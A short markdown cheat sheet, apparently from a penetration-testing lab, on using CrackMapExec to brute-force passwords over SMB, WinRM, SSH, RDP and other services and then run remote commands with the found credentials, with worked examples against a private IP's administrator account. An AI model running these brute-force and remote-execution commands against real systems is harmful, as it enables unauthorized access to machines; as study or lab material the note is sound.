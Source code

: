 
#### Used to brute force services: SMB, MSSQL, WinRM, FTP, SSH, RDP, LDAP.
- This tool is preinstalled on Kali.

## **<mark style="background: #0b5345;">How to use:</mark>**
`crackmapexec <protocol> <target_ip -u <target_user> -p <wordlist_path>`  
- Example:  `crackmapexec winrm 10.6.22.164 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`  
- We used the administrator account it exists in every windows machine and it has the highest privilages.

## **<mark style="background: #239b56;">To send commands after we found a user password:</mark>**

`crackmapexec <protocol <target_ip> -u <user> -p <password> -x "<command_in_a_quotation_marks>"`

- Example: `crackmapexec winrm 10.6.22.164 -u administrator -p tinkerbell -x "whoami"`


![[Pasted image 20250409175007.png | 800]]


